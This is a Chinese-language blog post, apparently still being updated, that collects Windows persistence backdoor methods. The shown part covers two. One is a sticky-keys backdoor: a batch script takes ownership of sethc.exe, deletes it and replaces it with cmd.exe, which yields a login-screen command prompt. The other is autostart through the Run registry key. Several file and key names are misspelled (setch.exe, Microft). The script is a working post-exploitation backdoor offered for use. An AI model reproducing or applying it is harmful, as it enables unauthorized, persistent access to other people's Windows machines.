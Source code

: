 ```yaml
---
layout: post
title: 持久化后门维持-Windows篇(updating)
---
```


> 文章长期更新，用来统计收集后门维持的各种方法。



## 0x01 shift后门(替换系统文件)

通过修改`setch.exe`来达到持久化后门

在低版本的windows中，我们可以直接把`C:\Windows\System32\`下`setch.exe`

替换成我们的后门程序，在登陆界面按5次shift即可出现cmd

![0x01](https://tva1.sinaimg.cn/large/00831rSTly1gcxuu947nsj31500dmabt.jpg)

![image-20200318140637169](https://tva1.sinaimg.cn/large/00831rSTly1gcy1rc9ccsj314k0lq411.jpg)



![0x02](https://tva1.sinaimg.cn/large/00831rSTly1gcxwxpnwzoj30hy0i6ab8.jpg)

```bash
@echo off
c:
cd\
cd Windows\System32
icacls sethc.exe /grant Administrator:f
del sethc.exe 
copy cmd.exe sethc.exe
pause&&exit
```

保存为.bat文件运行即可留下shift后门

---

###  0x02 注册表自启动

> 最常见的在指定键值添加一个新的键值类型为REG_SZ,数据项中添写需要运行程序的路径即可以启动，此类操作一些较为敏感容易被本地AV拦截，目前也是较为常见的一种方式。

`HKEY_LOCAL_MACHINE\SOFTWARE\Microft\windows\currentversion\run`

![0x03](https://tva1.sinaimg.cn/large/00831rSTly1gcy2iagbjuj317q0l4n3h.jpg)

<img src="https://tva1.sinaimg.cn/large/00831rSTly1gcy2lfca5ej32ls0n617q.jpg" alt="0x04" style="zoom:150%;" />



